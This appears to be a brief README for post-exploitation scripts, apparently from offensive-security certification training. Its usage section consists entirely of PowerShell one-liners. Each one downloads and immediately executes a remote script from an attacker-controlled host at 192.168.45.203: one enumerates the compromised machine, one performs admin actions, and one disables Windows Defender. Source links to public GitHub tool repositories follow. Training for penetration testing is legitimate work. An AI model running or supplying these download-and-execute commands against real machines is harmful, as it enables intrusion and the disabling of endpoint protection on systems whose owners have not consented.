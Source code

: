 # Name
Post Exploitation Scripts

## Usage
```
powershell -c "IEX (new-object system.net.webclient).downloadstring('http://192.168.45.203/post_enum.ps1')"

powershell -c "IEX (new-object system.net.webclient).downloadstring('http://192.168.45.203/post_admin.ps1')"

powershell -c "IEX (new-object system.net.webclient).downloadstring('http://192.168.45.203/DisableDefender.ps1')"
```

## Source
https://raw.githubusercontent.com/jayesther/OSEP_OSED_TOOLS/refs/heads/main/OSEP_enum.ps1
https://raw.githubusercontent.com/TapXWorld/osep_tools/refs/heads/main/Bypass_Defender/DisableDefender.ps1

